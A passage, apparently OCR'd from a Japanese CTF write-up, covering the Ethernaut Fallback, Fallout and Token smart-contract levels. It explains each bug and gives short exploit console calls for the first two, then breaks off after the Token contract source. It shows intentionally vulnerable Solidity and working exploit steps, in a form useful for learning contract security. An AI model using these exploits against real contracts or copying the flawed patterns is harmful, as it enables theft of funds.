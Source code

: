 Fallbackメソッドで `msg.sender` の中身をチェックせずに、 `owner` に代入して
いる。 あとは、 `require` の中身の条件を満たしてやれば良い ので、 fallbackメソ
ッドを呼び出す前に、`.contribute()` を 呼び出して `contributions` を増やしてお
く。

```
contract.contribute({value: 1})
contract.send(1)
contract.withdraw()
```

## 2. Fallout

```
contract Fallout is Ownable {

  mapping (address => uint) allocations;

  /* constructor */
  function Fal1out() payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  ...
}
```

コントラクトのコンストラクタ名にタイポがあり、ただのメソッドになってしまってい
る。

```
await contract.Fal1out()
```

こんなバグ本当に起きるのかという気がするが、リファクタリング漏れで実際に
発生したことがあるらしい。

## 3. Token

```
contract Token {
  mapping(address => uint) balances;
  uint public totalSupply;

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  ...
}
```
